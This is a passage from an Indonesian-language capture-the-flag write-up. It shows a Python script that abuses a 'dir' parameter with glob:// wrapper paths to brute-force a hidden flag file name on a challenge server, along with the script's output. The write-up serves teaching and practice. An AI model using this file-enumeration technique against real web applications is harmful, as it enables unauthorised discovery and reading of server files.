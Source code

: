 Setiap alamat file flag yang sudah dibentuk akan ditampilkan pada output menggunakan fungsi `print()`. Dalam contoh ini, proses brute force hanya menampilkan alamat file flag yang mungkin, namun tidak melakukan aksi apapun terhadap file tersebut. Pada implementasi yang sebenarnya, bisa saja dilakukan operasi untuk membuka dan membaca isi file flag tersebut jika alamat file flag berhasil ditemukan melalui proses brute force ini.

<a id="codespr1342"></a>

## Brute Force Debug 

Sekarang kita gabungkan kode tersebut untuk melakukan brute force

```python
import requests

karakter = "abcdefABCDEF0123456789"

clue = list("flag")

url = "http://ctf.iluv.my.id:9999/"

for brute in karakter:
		kirim = str("glob:///tmp/chall/" + "".join(clue) + brute + "*")

		noob = requests.get(
			url,
			params={
				"dir": kirim,
			},
		)
		print(kirim)
		print(noob.text)
```
```bash
noob@codes:~$ python brute-debug.py
glob:///tmp/chall/flaga*

glob:///tmp/chall/flagb*

glob:///tmp/chall/flagc*

glob:///tmp/chall/flagd*

glob:///tmp/chall/flage*

glob:///tmp/chall/flagf*

glob:///tmp/chall/flagA*

glob:///tmp/chall/flagB*

glob:///tmp/chall/flagC*

glob:///tmp/chall/flagD*

glob:///tmp/chall/flagE*

glob:///tmp/chall/flagF*

glob:///tmp/chall/flag0*

glob:///tmp/chall/flag1*
39
glob:///tmp/chall/flag2*

```